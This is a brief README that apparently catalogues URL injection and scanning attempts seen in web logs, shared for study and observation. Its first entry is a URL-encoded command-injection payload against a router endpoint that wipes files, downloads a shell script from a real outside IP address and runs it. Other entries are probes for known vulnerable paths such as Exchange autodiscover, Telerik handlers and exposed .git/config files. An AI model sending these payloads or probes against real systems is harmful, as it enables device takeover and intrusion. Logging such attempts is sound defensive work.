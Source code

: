 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
## ATTEMPTS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. ../autodiscover/autodiscover.json?@zdi/Powershell
3. ../owa/auth/x.js
4. ../backup/.git/config
5. ../log/.git/config
6. ../doc/.git/config
7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com
8. ../Telerik.Web.UI.WebResource.axd?type=rau
9. ../WebInterface/
10. ../sugar_version.json
11. ../icons/sphere1.png
12. ../static/historypage.js
13. ../cgi-bin/authLogin.cgi
14. ../remote/login
15. ../sitecore/shell/sitecore.version.xml
16. ../js/NewWindow_2_all.js
17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js
18. ../showLogin.cc
```
## Shadow Server Attempts (shadowserver.org)
```
1. ../vpn/index.html
2. ../geoserver/web/
3. ../.git/config
4. ../favicon.ico
```
